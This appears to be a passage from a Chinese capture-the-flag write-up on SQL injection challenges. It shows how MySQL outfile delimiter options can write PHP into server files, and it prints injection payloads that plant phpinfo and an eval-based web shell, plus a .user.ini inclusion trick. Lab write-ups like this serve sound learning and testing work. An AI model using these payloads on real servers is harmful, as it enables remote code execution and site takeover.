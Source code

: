 `optionally enclosed by '"'`

通过指定的字符将字段包裹起来，比如字段`a`的值是`123`，替换文件里的`a`为123，这样就可以在字段值中插入php代码了。

先使用单引号闭合，把分隔符构造的语句添加到sql语句里，最后注释掉后面的内容

```sql
filename=3.php'fields terminated by '<?php phpinfo();?>'#
```

::: tip 注意
sql导出数据到文件时，不存在覆盖的情况，或者说，已经存在的文件不能再写了
:::

![2422](/medias/show-sql/2422.png)

getshell

## web 243

过滤了`php`。可以通过`.user.ini`包含文件来getshell

按照上题的做法，把php代码写到非php文件即可(linux一切皆文件)，例如：

```sql
filename=1.txt'lines terminated by '<?= highlight_file(__FILE__);eval($_GET[1]);?>'#
```

写`.user.ini`，需要考虑到，不管用`lines starting by`或者`fields terminated by`都是添加在了某个字段末尾或者某行的末尾，那么，查询到的第一行的信息，是不在控制范围的，导致`.user.ini`里出现他不该有的字段，这样`.user.ini`会出现语法错误。

在sql语句里，提供了`lines starting by';'`，可以指定行开头，和上面的语句配合使用太完美了

